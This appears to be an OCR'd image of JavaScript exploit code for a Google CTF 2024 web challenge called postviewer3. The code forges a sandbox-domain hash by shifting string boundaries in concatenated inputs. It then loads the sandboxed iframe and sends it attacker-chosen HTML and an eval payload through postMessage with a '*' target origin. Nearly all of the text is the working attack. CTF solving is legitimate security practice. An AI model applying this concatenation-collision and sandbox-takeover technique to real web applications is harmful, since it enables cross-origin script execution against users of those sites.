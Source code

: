 ```html
    // let smallFrame = document.createElement("iframe");
    // document.body.appendChild(smallFrame);
    // smallFrame.src = "https://postviewer3-web.2024.ctfcompetition.com/"+"a".repeat(64000);

    let sleep = (ms) => new Promise((r) => setTimeout(r, ms));

    // const TRUSTED_ORIGIN = window.origin;

    // target.contentWindow.postMessage()

    (async function () {
      const TRUSTED_ORIGIN = "https://postviewer3-web.2024.ctfcompetition.com";
      const PRODUCT = "postviewer";

      let NOTE_URL = "https://postviewer3-web.2024.ctfcompetition.com/#0";
      let OVERWRITE_URL1 = "https://postviewer3-web.2024.ctfcompetition.com/#";
      let OUR_ORIGIN = window.origin;

      let OVERWRITE_SALT = "";
      let OVERWRITE_PRODUCT = "qyn";
      let OVERWRITE_BODY = evaluatorHtml + PRODUCT + TRUSTED_ORIGIN + OVERWRITE_URL1;

      let OVERWRITE_URL2 = OVERWRITE_URL1 + OVERWRITE_PRODUCT + OUR_ORIGIN + OVERWRITE_SALT;
      let hash = await calculateHash(evaluatorHtml, PRODUCT, TRUSTED_ORIGIN, OVERWRITE_URL2);
      console.log(hash);
      console.log([evaluatorHtml, PRODUCT, TRUSTED_ORIGIN, OVERWRITE_URL2].join(""));

      /* remote:
       * evaluatorHtml || postviewer || https://postviewer3-web.2024.ctfcompetition.com || https://postviewer3-web.2024.ctfcompetition.com/#qyn
       */

      /*     body                        product                         trusted origin
       * evaluatorHtml + postviewer || qyn || https://postviewer3-web.2024.ctfcompetition.comhttps://postviewer3-web.2024.ctfcompetition.com/# || OUR_ORIGIN || OVERWRITE_URL */

      let target = document.createElement("iframe");
      target.src = `https://sbx-${hash}.postviewer3-web.2024.ctfcompetition.com/${encodeURIComponent(OVERWRITE_PRODUCT)}/shim.html?o=${encodeURIComponent(OUR_ORIGIN)}`;
      document.body.appendChild(target);

      await sleep(500);
      target.contentWindow.postMessage({ body: OVERWRITE_BODY, salt: OVERWRITE_SALT, mimeType: "text/html; charset=utf-8" }, "*");

      await sleep(500);
      target.contentWindow.postMessage({ eval: `${doRace.toString()} doRace();` }, "*");
    })();
  </script>
</html>
```
